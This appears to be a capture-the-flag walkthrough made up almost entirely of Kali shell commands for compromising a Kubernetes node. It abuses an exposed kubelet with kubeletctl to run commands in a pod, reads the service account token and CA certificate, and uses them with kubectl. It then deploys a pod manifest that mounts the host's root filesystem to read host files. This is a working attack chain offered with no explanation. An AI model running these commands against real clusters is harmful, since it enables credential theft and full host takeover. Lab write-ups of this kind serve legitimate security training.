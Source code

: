 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
curl https://$TARGET:10250/pods -k
```

```bash - kali
git clone https://github.com/cyberark/kubeletctl
```

```bash - kali
curl -LO https://github.com/cyberark/kubeletctl/releases/download/v1.7/kubeletctl_linux_amd64
```

```bash - kali
chmod a+x ./kubeletctl_linux_amd64  
```

```bash - kali
sudo mv ./kubeletctl_linux_amd64 /usr/local/bin/kubeletctl
```

```bash - kali
kubeletctl --server $TARGET pods
```

```bash - kali
kubeletctl --server $TARGET scan rce
```

```bash - kali
kubeletctl --server $TARGET exec "id" -p nginx -c nginx
```

```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx  
```

```bash - kali
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx
```

```bash - kali
export token="eyJhbGciOiJSUzI1Ni....."
```

Save the ca.crt output to a file named "ca.crt"

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 auth can-i --list
```

---

f.yaml

```yaml - kali
apiVersion: v1
kind: Pod
metadata:
  name: nginxt
  namespace: default
spec:
  containers:
  - name: nginxt
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

---

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 apply -f f.yaml  
```

```bash - kali
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:443 get pods
```

```bash - kali
kubeletctl --server $TARGET exec "cat /root/home/user/user.txt" -p nginxt -c nginxt  
```

```bash - kali
kubeletctl --server $TARGET exec "cat /root/root/root.txt" -p nginxt -c nginxt
```